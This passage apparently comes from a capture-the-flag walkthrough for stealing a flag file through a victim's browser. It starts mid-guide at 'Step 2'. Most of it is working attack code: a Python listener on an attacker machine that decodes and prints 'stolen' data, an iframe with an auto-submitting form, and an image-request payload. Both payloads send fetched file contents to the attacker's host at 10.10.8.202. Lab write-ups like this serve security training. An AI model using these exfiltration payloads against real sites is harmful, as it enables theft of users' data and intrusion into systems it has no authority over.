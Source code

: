 ### **Step 2: Capture the Flag on Your Server**

Run this on your attack machine (`10.10.8.202`):

```python
from http.server import BaseHTTPRequestHandler, HTTPServer
import base64

class Handler(BaseHTTPRequestHandler):
    def do_GET(self):
        self.send_response(200)
        self.send_header('Content-type', 'text/plain')
        self.end_headers()
        
        if "leak=" in self.path:
            flag = base64.b64decode(self.path.split("leak=")[1]).decode()
            print("[*] Stolen Flag:", flag)

HTTPServer(('0.0.0.0', 5667), Handler).serve_forever()
```

✅ **If fetch works, this server will capture the flag!**

---

## **3️⃣ If Fetch Fails, Try Iframe Auto-Submission**

If `fetch()` is **blocked by SOP (Same-Origin Policy)**, use an **iframe attack**:

```html
<iframe id="steal_flag" src="http://10.10.49.94:8080/flag.txt"></iframe>
<form action="http://10.10.8.202:5667" method="POST">
  <textarea name="leak"></textarea>
</form>
<script>
setTimeout(() => {
  document.querySelector("textarea").value = document.getElementById("steal_flag").contentWindow.document.body.innerText;
  document.forms[0].submit();
}, 3000);
</script>
```

✅ **This forces the victim’s browser to submit the flag to your server.**

---

## **4️⃣ Use an Image-Based Exfiltration (Bypass CORS)**

If `fetch()` fails due to **CORS (Cross-Origin Resource Sharing) restrictions**, try sending the flag **via an image request**:

```html
<script>
fetch("http://10.10.49.94:8080/flag.txt")
  .then(res => res.text())
  .then(data => {
    var img = new Image();
    img.src = "http://10.10.8.202:5667/?leak=" + encodeURIComponent(data);
    document.body.appendChild(img);
  });
</script>
```
